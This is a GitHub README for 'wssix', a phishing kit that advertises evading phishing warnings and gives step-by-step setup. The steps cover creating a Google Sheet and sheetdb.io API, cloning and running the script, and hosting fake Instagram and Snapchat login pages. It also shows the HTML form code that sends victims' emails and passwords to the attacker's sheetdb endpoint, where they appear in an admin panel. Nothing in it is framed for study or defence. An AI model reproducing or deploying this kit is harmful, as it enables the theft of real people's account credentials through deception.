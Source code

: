 
# **wssix**
wssix helps you to create your own phishing tool.

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites


## **CREATING API key** ...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells. ( **Just types these words not your email and password** )
```
   ______________   _______________
|_____EMAIL______| |___PASSWORD____|
```
![](https://raw.githubusercontent.com/Harsh-bash/wssix/aurora/images/screenshot.png)



- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
https://sheetdb.io/api/v1/xvxbpk*******
```




## 
## **Setup Admin and Phishing Panel**  ...

- Clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Go to wssix folder
```bash
cd wssix
```
- Now, run script.py file and enter your api key as an argument . For example:
```bash
python3 script.py YOUR-API-KEY
```
- Your files are ready now !!!!

Now host **Admin** folder and **client** folder.

For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)

**After hosting client folder you can access phish pages with /**
```
https://*******.***/instagram
```
```
https://*******.***/snapchat
```
### You can see phished credentials on admin panel.

## **How this work!!**

**wssix use [**google sheets**](https://render.com/) for database and [**sheetdb.io**](https://sheetdb.io) for api.**

To send data from your **HTML FORM** to google sheets
- set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this admin panel.**

